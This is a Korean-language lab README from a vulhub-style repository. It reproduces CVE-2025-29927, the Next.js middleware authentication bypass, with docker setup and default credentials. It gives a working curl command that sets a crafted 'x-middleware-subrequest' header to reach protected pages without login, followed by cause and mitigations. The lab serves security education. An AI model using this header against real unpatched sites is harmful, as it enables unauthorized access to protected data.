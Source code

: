 # Next.js 미들웨어 인증 우회 (CVE-2025-29927)

Next.js는 서버 사이드 렌더링(SSR), 정적 사이트 생성(SSG), 통합 라우팅 시스템 등 다양한 기능을 제공하는 React 기반 웹 애플리케이션 프레임워크이다.  
Next.js를 인증 및 인가 미들웨어와 함께 구성할 때, 14.2.25 및 15.2.3 이전 버전에서는 인증 우회 취약점이 존재한다.

이 취약점을 통해 공격자는 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 리소스 및 민감한 데이터에 비인가 접근을 시도할 수 있다.

---

## 참고 자료

- [GitHub 보안 권고문](https://github.com/advisories/GHSA-f82v-jwr5-mffw)
- [Zero Web Security 연구 문서](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [NVD CVE-2025-29927 상세 정보](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)

---

## 환경 구성

다음 명령어를 실행하여 Next.js 15.2.2 버전 기반의 취약한 애플리케이션을 시작한다:

```bash
docker compose up -d
```

애플리케이션이 실행된 후, 브라우저에서 다음 주소로 접속한다:

```
http://your-ip:3000
```

초기 접속 시 로그인 페이지로 리다이렉트된다.  
기본 로그인 정보는 다음과 같다:

```
ID: admin
PW: password
```

로그인 후 아래 이미지와 같은 대시보드에 접근할 수 있다.

![Docker Compose 실행](./images/docker-up.png)

---

## 취약점 구현

### 정상 접근 시도

로그인 없이 대시보드에 접근을 시도하면 로그인 페이지로 리다이렉트된다. 아래는 Burp Suite로 요청과 응답을 주고 받은 결과이다.

```bash
curl -i http://your-ip:3000
```

![로그인 페이지 접속](./images/login-page.png)

---

### 인증 우회 공격

취약점을 악용하기 위해, 요청 헤더에 `x-middleware-subrequest`를 추가한다.  
헤더 값은 다음과 같이 설정한다:

```
middleware:middleware:middleware:middleware
```

명령어 예시는 다음과 같다:

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware" http://your-ip:3000
```

![인증 우회 성공](./images/bypass-success.png)

Burp Suite로 확인을 해보니 정상적으로 인증 우회가 이루어지며, 로그인을 하지 않고도 보호된 리소스에 접근이 가능함을 알 수 있다.

---

## 결론

- 문제 원인: Next.js 미들웨어가 내부 서브 요청(`x-middleware-subrequest`)을 제대로 검증하지 않음.
- 영향: 인증 절차를 거치지 않고 민감한 리소스에 접근할 수 있음.
- 대응 방안:
  - Next.js 버전을 15.2.3 이상으로 업데이트
  - 미들웨어 요청 시 추가적인 세션 및 사용자 인증 검증 로직 추가
  - 신뢰할 수 없는 클라이언트로부터의 헤더 조작을 차단

---

## GitHub 레포지토리 링크

- [https://github.com/JuniorJANG/vulhub](https://github.com/JuniorJANG/vulhub)
